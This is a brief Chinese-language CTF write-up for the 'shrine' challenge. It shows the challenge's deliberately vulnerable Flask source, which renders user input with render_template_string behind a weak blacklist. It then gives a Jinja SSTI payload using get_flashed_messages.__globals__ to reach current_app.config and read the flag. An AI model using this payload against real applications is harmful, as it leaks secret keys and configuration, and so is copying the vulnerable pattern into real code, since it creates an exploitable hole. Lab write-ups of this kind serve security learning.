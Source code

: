### shrine-adworld

还以为是别的什么框架问题，又是flask的ssti

![image-20240919123954071](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240919123954071.png)

```python
import flask
import os

app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/')
def shrine(shrine):
    def safe_jinja(s):
        # 将左括号和右括号替换为空
        s = s.replace('(', '').replace(')', '')
        
        # 黑名单中的关键词被禁止使用
        blacklist = ['config', 'self']
        
        # 构建 Jinja 模板，设置黑名单中的变量为 None
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    # 渲染模板，传入处理过的 shrine 参数
    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)

```

看到jinja和flask，直接在/shrine/下ssti打

![image-20240919123314468](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240919123314468.png)

这里直接用昨天现用的，因为flag在config里，就不用构造eval去看rce

###

如果过滤了config,又需要查config

###

```
{{config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

![image-20240919124137073](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240919124137073.png)